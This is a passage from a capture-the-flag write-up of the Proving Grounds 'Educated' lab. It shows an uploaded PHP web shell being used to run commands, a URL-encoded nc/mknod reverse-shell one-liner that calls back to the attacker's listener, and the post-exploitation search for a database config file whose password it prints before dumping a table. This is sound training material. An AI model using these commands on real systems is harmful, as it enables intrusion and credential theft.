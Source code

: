 ![burp](../../../assets/images/ctfs/proving_grounds/educated/burp.png)

# Exploitation

---

Now that we have our PHP web shell uploaded we can demonstrate command execution.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ curl http://192.168.173.13/management/uploads/exam_question/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Let's send a nc-mknod oneliner to get a reverse shell on a net cat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ curl http://192.168.173.13/management/uploads/exam_question/cmd.php?cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

![shell](../../../assets/images/ctfs/proving_grounds/educated/shell.png)

# Post-Exploitation

---

## Enumerate database.php

```bash
www-data@school:/var/www/html$ find / -name "database.php" 2>/dev/null
find / -name "database.php" 2>/dev/null
/var/www/html/management/application/config/database.php

$db['default'] = array(
        'dsn' => '',
        'hostname' => 'localhost',
        'username' => 'school',
        'password' => '@jCma4s8ZM<?kA',
        'database' => 'school_mgment',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,

```

Enumerate the database

```bash
www-data@school:/var/www/html/management/application/config$ mysql -uschool -p

mysql> use school_mgment;
use school_mgment;

mysql> select * from teacher;
select * from teacher;
+------------+-----------------+------+----------------+------------+------+--------------+-------------+------------------------------------------------------------------------------------------+------------+--------------------------+----------+---------+------------+----------+---------------+----------------+-------------+------------------------------------------+---------------+----------------+-----------------+----------------+--------+-----------------+---------+--------------+
```